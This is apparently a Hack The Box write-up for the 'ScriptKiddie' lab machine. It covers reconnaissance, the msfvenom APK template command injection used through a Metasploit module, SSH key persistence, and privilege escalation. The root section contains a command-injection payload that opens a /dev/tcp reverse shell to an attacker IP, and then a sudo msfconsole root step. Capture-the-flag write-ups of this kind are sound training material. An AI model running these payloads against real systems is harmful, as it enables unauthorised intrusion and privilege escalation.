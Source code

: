 ![SCRIPTKIDDIE](banner.png)
## Reconnaissance
```
$sudo nmap -sS -sV 10.129.138.106
PORT   STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
On port 5000 we are welcomed by this page:
![website](website.png)

The payloads tool says: 'venom it up - gen rev tcp meterpreter bins' so it is propably msfvenom doing the work here.
There is also the possibility to upload template files and to select android as the OS. The template file threw me a little off because I haven't seen that for msfvenom before so I research template files, msfvenom and android and find a popular vulnerability which is described [here](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md).

## User

There is also a metasploit module which we will use to make things even easier:

`msfconsole`
```
use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```
We only need to set LHOST and LPORT and hit run. We can then upload the generated .apk to the website as an android template. The LPORT on the website doesn't matter as long as it's not empty.

We set up our Listener at 4444 or whichever LPORT we set in the msfconsole.

The reverse shell we get is a little bit ugly so we use `ssh-keygen` to create a new key-pair. We then proceed to echo our public key into the `authorized_keys` file on the scriptkiddie machine.

We can now use the created private key to connect to the machine via ssh to have a stable shell:
```
ssh -i id_rsa kid@10.129.157.245

```

We can now grab the `user.txt`

## Root

We quickly find another user in the /home directory called `pwn`, he also has a suspicous looking script which we can read:

scanloser.sh
```sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
The script reads `/home/kid/logs/hackers` and executes whatever is in there. We can abuse this by writing into `/home/kid/logs/havkers`.
But we don't have write privileges so how do we do that?

After enumerate more we find that in the `/home/kid/html/app.py` it says that the searchsploit module from the webapp writes to that file whenever an error occurs so let's try that.

Nothing happens... however if we now write our payload to the file we instantly get our reverse shell:

```sh
echo 'a b $(bash -c "bash -i &>/dev/tcp/10.10.14.105/4242 0>&1")' > /home/kid/logs/hackers
```

```sh
pwn@scriptkiddie:~$ whoami
whoami
pwn
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
Sweet we can run metasploit as root:

```sh
$sudo msfconsole

whoami
root
```
